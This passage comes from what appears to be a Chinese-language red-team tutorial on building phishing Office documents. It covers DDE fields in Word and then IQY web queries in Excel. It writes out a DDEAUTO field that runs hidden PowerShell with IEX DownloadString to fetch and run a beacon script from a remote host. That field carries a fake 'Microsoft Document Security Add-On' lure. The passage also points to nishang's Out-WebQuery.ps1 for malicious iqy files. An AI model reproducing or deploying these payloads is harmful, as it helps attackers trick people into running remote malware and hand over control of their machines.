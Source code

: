 ![huEsT.png](https://s3.jpg.cm/2021/03/30/huEsT.png)

双击，选择确定，即可上线。

#### 2.6 构造DDE钓鱼文档

创建一个文档  dde.docx ,之后双击打开 dde.docx,直接Ctrl + f9快捷键便可以快速帮助创建一个域,我们则只需要在花括号中添加如下指令(弹出一个计算器),实战过程中可以远程加载我们的木马。

```javascript
DDEAUTO c:\\windows\\system32\\cmd.exe "\/k calc.exe"
```

![huFhE.png](https://s3.jpg.cm/2021/03/30/huFhE.png)

成功弹出计算器。

这里用ps远程下载马。

![humnQ.png](https://s3.jpg.cm/2021/03/30/humnQ.png)


输入

```cmd
DDEAUTO "C:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.2.148:8000/beacon.ps1'); # " "Microsoft Document Security Add-On"
```

![hu4c2.png](https://s3.jpg.cm/2021/03/30/hu4c2.png)

点击是---> 是--->确认 后即上线。

#### 2.7 IQY特性钓鱼

> 利用nishang下的Out-WebQuery.ps1， 脚本生成包含恶意 payload url 的 iqy 文件。

可以将IYQ简单的理解成内置在excel中的一种特殊‘web浏览器’（不能加载脚本），通过IQY【即web查询】语句，可以直接将各类web上的列表数据轻松引入到当前的excel中，而正是因为这样，从而给了我们利用excel制作钓鱼邮件的机会，假如你要引入的web数据是入侵者事先准备好的一段payload iqy恶意代码，那结果就不言而喻了。

**利用过程：**

新建一个excel文件，找到"数据"-->"自网站"-->"地址"，填写要抓取数据的网站url，选中想抓取数据的表单

![hupJh.png](https://s3.jpg.cm/2021/03/30/hupJh.png)

点击导入

![huvzS.png](https://s3.jpg.cm/2021/03/30/huvzS.png)

点击确定，即可成功导入

![huBwH.png](https://s3.jpg.cm/2021/03/30/huBwH.png)

接下来利用IYQ打开计算机来看看效果


